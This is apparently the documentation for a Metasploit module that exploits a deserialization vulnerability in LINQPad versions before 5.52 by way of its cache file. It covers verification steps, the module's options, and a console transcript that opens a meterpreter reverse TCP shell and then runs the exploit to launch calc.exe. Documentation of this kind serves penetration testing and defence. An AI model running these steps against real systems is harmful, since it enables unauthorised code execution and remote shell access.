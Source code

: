 ## LINQPad 5.48 Deserialization

LINQPad is a scratchpad for .NET programming. Versions prior to 5.52 contain a deserialization vulnerability in processing cache file when program is starting. Application can be downloaded from [here](https://www.linqpad.net/).

## Verification Steps
Steps:

1. Install the application
2. Start msfconsole
3. Get Meterpreter/cmd shell
4. Run: `use windows/local/linqpad_deserialization`
5. Set payload - for example `set payload cmd/windows/generic` - and corresponding parameters
5. Set parameters `session`, `cache_path`, `linqpad_path`
6. Run exploit

## Options

### cache\_path

The parameter sets path for folder, where vulnerable cache file is present. This is crucial part of the exploit as the folder can be used to identify whether the current version is vulnerable and the payload delivery is performed through cache file. 

### linqpad\_path

Final part of exploit runs the LINQPad to trigger deserialization procedure. The `linpad_path` parameter sets the path to LINQPad binary, which is ran at the end of exploit.

Example:

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 192.168.95.128
msf6 exploit(multi/handler) > set LPORT 4242
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.95.128:4242 
[*] Meterpreter session 1 opened (192.168.95.128:4242 -> 192.168.95.130:53430) at 2024-12-30 12:46:16 +0100

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/linqpad_deserialization
msf6 exploit(windows/local/linqpad_deserialization) > set LINQPAD_PATH C:/ProgramData/LINQPad/Updates50.AnyCPU/552/LINQPad.exe
msf6 exploit(windows/local/linqpad_deserialization) > set payload windows/exec/cmd
msf6 exploit(windows/local/linqpad_deserialization) > set cache_path C:/Users/ms/AppData/Local/LINQPad
msf6 exploit(windows/local/linqpad_deserialization) > set CMD calc.exe
msf6 exploit(windows/local/linqpad_deserialization) > set session 1
msf6 exploit(windows/local/linqpad_deserialization) > exploit
[*] Exploit completed, but no session was created.
```

Previous example will run `calc.exe` when LINQPad will start.

